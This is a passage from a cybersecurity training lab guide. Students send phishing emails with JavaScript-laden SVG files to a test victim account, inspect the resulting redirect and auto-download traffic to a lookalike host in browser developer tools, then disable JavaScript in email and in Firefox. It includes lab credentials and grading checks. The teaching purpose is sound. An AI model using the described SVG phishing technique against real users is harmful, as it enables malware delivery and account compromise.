

3. (**Kali**, **Chromium**, **Web Mail Site**) Click `Send` to send the message.

4. (**Kali**, **Firefox**, **Web Mail Site**) Return to Firefox and you should see that the victim's inbox has received the message. Click it to view the email.



The email states that a login was attempted against your Vault--Tec account and that you need to download the security report to verify the attempt. Instead of actually clicking to download the file it is automatically downloaded to your machine. 

From here similar events could take place that occurred in the IBM article, where attempting to open the report would result in malicious code being executed, and soon after, the attacker would have full access to the victim's machine.

</p>
</details>


<details>
<summary>
<h3>Phase 1 Grading Check<h3>
</summary>
<p>

1. (**Kali**, **Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)`. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.

These two checks will verify that you were able to successfully send both of the malicious SVG files to email `victim@skills.hub`. 



Grading Check 1: Completed the `page_redirect.html` file, sent it in an email to the user `victim@skills.hub` and triggered it.
   - The HTML file `page_redirect.html` containing a malicious SVG was completed and sent to the user `victim`.
   - Opened the email from the `victim` account and viewed how the malicious SVG was triggered.

Grading Check 2: Sent the malicious file downloader SVG to the user `victim@skills.hub` and triggered it.
   - The HTML file `file_downloader.html` containing a malicious SVG was sent to the user `victim`.
   - Opened the email from the `victim` account and viewed how the malicious SVG was triggered.

`Copy the token or flag strings to the corresponding question submission field to receive credit.`

`You should complete all phase 1 tasks before moving on to phase 2.`

</p>
</details>

## Phase 2: Analyzing SVGs

<details>
<summary>
<h3>Investigating Source Code<h3>
</summary>
<p>

If you believe you have received or interacted with a suspicious SVG file, there are ways to perform your own analysis of the file to determine what it is doing and if there is JavaScript code being executed. The first method we'll cover is analyzing source code.

1. (**Kali**, **Firefox**, **Web Mail Site**) You should still be logged into the `victim` account with the `URGENT SECURITY UPDATE` email open. If not, re-open it to view the email.

2. (**Kali**, **Firefox**, **Web Mail Site**) With the email open, right-click on the contents of the email and select `inspect`



You should now see that the `Web Developer Tools` pane has been opened. Feel free to re-size the pane as needed.

3. (**Kali**, **Firefox**, **Web Mail Site**) At the top of the toolbar, you should see multiple tabs named `Inspector`, `Console`, `Debugger`, etc. Click on the `Inspector` tab if it is not already selected.

You can see that the source code of the webpage is now visible in the below section showing all the elements that make it up.



As you hover over different sections of the code, you should see that different sections of the website page are also highlighted. This is to indicate which part of the page the code you're hovering over is associated with. 

In the code, you should see the following comment that indicates the start of where the email content is rendered.

```html
<!--Email Content-->
```

Right below the comment above should be the start of the code that makes up the content of the email. Keep track of this as it will be referenced in the following steps.

4. (**Kali**, **Firefox**, **Web Mail Site**) Hover over the line of code that says `<section class="email-content">`. It should highlight the email contents present on the page. Still hovering on this area, right-click the line of code that says `<section class="email-content">` and select `Expand All`. This will show all the code being rendered in the email. 




As you look through the code, you should start to see how each line of code is associated with an aspect of the email message.

5. (**Kali**, **Firefox**, **Web Mail Site**) In the Inspector tab, scroll towards the bottom of the email content code. At the bottom you should notice the `<svg>` tag and within is the `<script>` tag. This is exactly what we are looking for. 


6. (**Kali**, **Firefox**, **Web Mail Site**) It's a bit difficult to read as it is. To make things easier right-click on the `<svg>` tag and select `Edit as SVG`

Once clicked, you should see a new box appear that formats the code within that `<svg>` tag, making it easier to read.


Now you can scroll through the code making up the SVG and view the JavaScript embedded within.

Normally you would need to analyze the variables, functions, and other calls being made to understand the code. For this lab though, we'll cover the functionality from a high level. 

Once the email is rendered, the JavaScript within the SVG is executed. It is performing a `GET` request to a remote resource where it retrieves a file and downloads it through the browser to the user's system. This URL is defined in the `let url` line. Take note of the port in use for this URL. This port will be used in the grading check at the end of this phase.

This is a basic example, but finding this behavior within an email should be mildly alarming. This might indicate to the user that they are likely receiving an email with malicious intent. 

</p>
</details>


<details>
<summary>
<h3>Tracking Network Activity<h3>
</summary>
<p>

Next, we'll review network activity while interacting with a website to see if any suspicious requests are being made.

1. (**Kali**, **Firefox**, **Web Mail Site**) Return to Firefox. You should still be logged into the `victim` account with the `Web Developer Tools` still open. If not, follow steps 1-2 in the previous section to re-open them.

2. (**Kali**, **Firefox**, **Web Mail Site**) At the top of the developer tools where the tabs are, you should see a `Network` tab. Click it.



With this tab open, you can watch all network requests made from the currently viewed page/browser tab. 

You will see repeated requests made to `web-mail.skills.hub`. These requests are the web server polling its backend to ensure all emails are retrieved and presented in their associated folder.

3. (**Kali**, **Firefox**, **Web Mail Site**) To clear the list of requests, click the `Refresh` button on the browser.

4. (**Kali**, **Firefox**, **Web Mail Site**) Let's see what happens in the network tab when the `URGENT SECURITY UPDATE` email is opened. Click on the `URGENT SECURITY UPDATE` email.

Look through the requests. Under the `Domain` column you should see a request that is different from the rest. In that same record, you should see under the `File` column that it is listed as the file `Report`.

5. (**Kali**, **Firefox**, **Web Mail Site**) In the network traffic table, click on the record with the request being made to `web--mai1.skills.hub`. 

A new panel should open on the right containing a variety of information associated with this request.



Finding unexpected requests being made after interacting with a suspicious email is also an indicator that the email has malicious intent.

</p>
</details>


<details>
<summary>
<h3>Phase 2 Grading Check<h3>
</summary>
<p>


1. (**Kali**, **Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)`. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.

These checks will verify that you were able to analyze the traffic that occurred when the JavaScript code in the malicious SVG was triggered. 


Grading Check 3: What is the port that the GET request is sent to from the JavaScript within the security email? *HINT:* The port is the number following the `:` in the URL of the GET request.
   - Traffic triggered by the SVG was captured and the remote resource was analyzed.



Grading Check 4: What is the value of the header (`Q4_Token`) that was received in the response from the GET request used to download the malicious report file? *HINT:* Repeat step 5 under the "Tracking Network Activity" section, then click on the "Headers" tab, and view the headers received in the "Response Headers" section.
   - Traffic triggered by the SVG was captured and the response from the remote resource was analyzed. 



`Copy the token or flag strings to the corresponding question submission field to receive credit.`

`You should complete all phase 2 tasks before moving on to phase 3.`

</p>
</details>

## Phase 3: Mitigations and Protections

<details>
<summary>
<h3>Securing Your Email<h3>
</summary>
<p>

There are a wide array of mail clients and servers available for organizations to choose from based on requirements, restrictions, and environment. Many email applications have protections in place by default to prevent the execution of JavaScript. But as you read in the IBM article, there are some that have vulnerabilities or configurations present that allow JavaScript to be executed. These vulnerabilities can lead to successful phishing attacks.

Regardless of your chosen software, you should always look to analyze the configurations available to you and harden email accounts to mitigate and block code execution. The final phase implements these security measures in the `web-mail` client used in the lab.

**NOTE: The web client example in this lab is very basic, but the same concepts can be applied to real-world mail services and settings.**

1. (**Kali**, **Firefox**, **Web Mail Site**) Return to Firefox. You should still be logged into the `victim` account. If not, log back into the account with the credentials:

```
Username: victim
Password: tartans
```

2. (**Kali**, **Firefox**, **Web Mail Site**) In the top right of the page, you should see a `Settings` button next to the victim's name and email. Click it.



The settings page offers a few options for updating account information. We will be focusing on the option that allows JavaScript. 

3. (**Kali**, **Firefox**, **Web Mail Site**) Click on the toggle so it changes to grey and indicates that it will be disabled. Once done, click `Save Changes`.

Now that JavaScript execution in email has been disabled, let's test the setting by re-opening the malicious email that resulted in a redirect to the malicious site, `https//web--mai1.skills.hub`.

4. (**Kali**, **Firefox**, **Web Mail Site**) Click on the email with the subject `redirect`. 

The page should no longer automatically redirect the user and you're still able to view the email. The mail server now prevents any JavaScript found in an email from being executed and the email can be viewed normally. You can also test this with the email that caused the automatic file download.

</p>
</details>


<details>
<summary>
<h3>Configuring Browser Protections<h3>
</summary>
<p>

Browsers are like ice cream. There is a flavor for everyone, and each has their own behaviors. Common options include security setting customizations that change what is allowed when visiting an HTML page. Below we will go over an example of disabling all JavaScript execution within the browser.

**NOTE: Keep in mind that JavaScript is deeply interconnected with how webpages are rendered and disabling it can cause websites to completely break. There is always a tradeoff between usability and security.**

1. (**Kali**, **Firefox**, **Web Mail Site**) Return to Firefox. Still logged into the `victim` account, click on the `Settings` button and re-enable JavaScript execution within email.

2. (**Kali**, **Firefox**, **Web Mail Site**) Open a new browser tab and in the URL bar, enter the string: `about:config`. When prompted, click the `Accept the Risk and Continue` button.

| &#128270; INFORMATION |
|---|
|_The `about:config` page presents all of the settings available in Firefox. This page allows for a deeper customization of the browser than what is offered in the standard browser `Settings` menu. It is recommended that only those with experience alter these. More information can be found in the <a href="https://support.mozilla.org/en-US/kb/about-config-editor-firefox">Firefox Config Editor Guide</a>._|

3. (**Kali**, **Firefox**, **Web Mail Site**) In the search bar, enter the string `javascript.enabled`. 

You should see one result and that is the setting that allows JavaScript to be run. Currently it is set to `true`, which allows all JavaScript.

4. (**Kali**, **Firefox**, **Web Mail Site**) Hover over the line where it says `true` and double-click it. It should turn to `false`.

You can also click the button located to the right of the record to change the value from `true` -> `false`.



5. (**Kali**, **Firefox**, **Web Mail Site**) Go back to the tab with the `victim` logged in and hit `Refresh`.



You should see that the emails are now missing, and the website seems to be acting strangely. If you attempt to click on a different folder or the settings button, nothing happens. This is because JavaScript handles those operations on this website and that effectively causes the website to become unusable.

This is a drastic method to prevent JavaScript from being executed, but it is nevertheless effective. 

| &#9888; WARNING &#9888; |
|---|
|_In order to complete the lab, JavaScript will need to be enabled in the browser. Please complete the following steps in order to accomplish this._|

6. (**Kali**, **Firefox**, **Web Mail Site**) Open a new browser tab and in the URL bar, enter the string: `about:config`. When prompted, click the `Accept the Risk and Continue` button.

7. (**Kali**, **Firefox**, **Web Mail Site**) In the search bar, enter the string `javascript.enabled`. It should still be set to `false`. double-click it again and it should turn back to `true`.

</p>
</details>


<details>
<summary>
<h3>Extra Information: Browser Extensions<h3>
</summary>
<p>

It is also important to note that even though Firefox might not natively provide granular control of websites and what can be rendered, there are extensions available for Firefox and other browsers that provide enhanced protection and functionality. Below are a few reputable examples for providing enhanced functionality:

1. <a href="https://noscript.net/">NoScript Security Suite</a>
   - This extension can prevent JavaScript from executing and only allow JavaScript to be run from trusted sources that are chosen by the user. <a href="https://noscript.net/">here.</a>
2. <a href="https://ublockorigin.com/">UBlock Origin</a>
   - This extension is touted as a wide-spectrum content blocker and offers a high level of customization to the user to decide what content gets blocked. More can be read on it <a href="https://ublockorigin.com/">here.</a>
3. <a href="https://addons.mozilla.org/en-US/firefox/addon/umatrix/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search">uMatrix</a>
   - This extension is intended for advanced users and offers extremely granular control of your browser. uMatrix also has its own <a href="https://github.com/gorhill/uMatrix">GitHub project</a>.

There is a multitude of extensions available for just about every browser, offering a vast assortment of functionality to fit the security needs of the user.

</p>
</details>


<details>
<summary>
<h3>Phase 3 Grading Check<h3>
</summary>
<p>

### Phase 3 Grading Check

(**Kali**, **Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)`. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.

This check will verify that you were able to successfully disable the execution of JavaScript in emails for the `victim` account.


Grading Check 5: Disabled the execution of JavaScript in emails for the `victim` account.
 - Configured the settings of the `victim` email account to prevent execution of JavaScript.

`Copy the token or flag strings to the corresponding question submission field to receive credit.`

`You should complete all phase 3 tasks before moving on to phase 4.`

</p>
</details>

## Conclusion

<details>
<summary>
<h2>Lab Wrap Up</h2>
</summary>
<p>

By completing this lab, you have become more familiar with weaponized SVG files and how they have been used in malicious phishing attacks. Additionally you now understand the measures one can take to prevent such attacks from succeeding.


To recap:
 - You created SVG files and viewed how they can be used in phishing attacks
 - You practiced analyzing a website's source code to gain information on ongoing malicious events
 - You mitigated a phishing attack and learned how to implement other security measures that prevent code execution

Skills exercised:
 - S0544: Skill in recognizing vulnerabilities.
 - S0591: Skill in performing social engineering.
 - S0656: Skill in assessing application vulnerabilities.
 - S0688: Skill in performing network data analysis.
 - S0732: Skill in recognizing malicious network activity in traffic.

Understanding the SVG filetype is crucial. Unlike many image formats, SVG files are based on XML and can easily embed JavaScript, making them vectors for malicious code. This capability allows for exploitation through phishing and other types of attacks to execute scripts, steal data, and more. To mitigate these risks, it is essential that users have awareness of the types of files and resources found in web applications and email messages.

### References
- [Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)](https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan)
- [SVG Documentation](https://www.w3.org/TR/SVG11/)
- [About SVG](https://www.w3.org/Graphics/SVG/About)
- [World Wide Web Consortium - About](https://www.w3.org/about/)
- [SVG History and Information](https://www.loc.gov/preservation/digital/formats/fdd/fdd000515.shtml)
- [XML Introduction](https://developer.mozilla.org/en-US/docs/Web/XML/Guides/XML_introduction)
- [XML Documentation](https://www.w3.org/TR/2008/REC-xml-20081126/)
- [IBM X-Force](https://www.ibm.com/services/incident-response)
- [JavaScript setTimeout](https://developer.mozilla.org/en-US/docs/Web/API/Window/setTimeout)
- [Firefox about:config](https://support.mozilla.org/en-US/kb/about-config-editor-firefox)

</p>
</details>
